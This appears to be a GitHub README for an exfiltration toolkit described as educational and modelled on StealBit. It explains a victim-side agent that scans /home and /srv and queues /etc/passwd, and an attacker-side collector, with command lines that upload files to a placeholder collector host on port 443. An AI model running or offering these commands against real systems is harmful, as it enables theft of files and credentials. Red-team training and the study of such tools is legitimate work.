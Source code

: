 # Laminar Exfiltration Toolkit

This repository contains a simulated Linux-based exfiltration framework for educational and training purposes only.
It demonstrates file discovery, local IPC queuing, and resumable TCP uploads to a remote collector, similar to capabilities seen in real exfiltration tools like StealBit.

> ⚠️ **For educational and authorized use only.**
> Do not use this tool on systems you do not own or lack explicit permission to operate on.


## Key Features

| File                   | Description                                                           |
| ---------------------- | --------------------------------------------------------------------- |
| `laminar.py`           | Client-side agent with file scanner, IPC queue, and TCP upload worker |
| `laminar_collector.py` | Server-side collector with resumable transfers and safe storage       |


1. **Agent (`laminar.py`)**:
   * Runs on the victim host.
   * Scans filesystem paths for files matching size and extension filters.
   * Uses Unix domain socket IPC to enqueue discovered files for exfiltration.
   * Maintains a persistent TCP connection to the collector for uploads.
   * Supports resumable transfers using offset-based protocol negotiation.
   * Allows scanning, queuing, and uploading to run in separate processes.

2. **Collector (`laminar_collector.py`)**:
   * Runs on the attacker host.
   * Listens for TCP connections from Laminar agents.
   * Validates framing protocol and prevents path traversal attacks.
   * Resumes interrupted transfers without resending completed data.
   * Writes partial files with `.part` extension until fully received.
   * Logs mapping between stored filenames (hash) and original paths.


## Usage

### 1. Start Collector (Attacker side)

```bash
python3 laminar_collector.py --bind 0.0.0.0 --port 443 --recv-dir ./recv
```

### 2. Run Agent in Server Mode (Victim side)

```bash
python3 laminar.py --mode server --remote-host <COLLECTOR_IP> --remote-port 443
```

### 3. Scan and Queue Files (Victim side)

```bash
python3 laminar.py --mode scan --dirs /home /srv --min-mb 10 --max-mb 500
```

It is possible to scan a specific file: 

```bash
python3 laminar.py --mode queue --path /etc/passwd
```

## Notes 

### Resume logic
1) On HEAD, collector looks up the destination filename from the path.
2) If that file already exists (partial from a previous attempt), we get its
   size (offset) and reply with that value (OKOF + offset).
3) Sender seeks to "offset" in the source file and continues streaming DATA
   frames until "file_size" bytes total are present.
4) When file is complete, the collector expects EOF!, sends DONE, and may
   rename the temporary ".part" to ".done" (purely cosmetic).
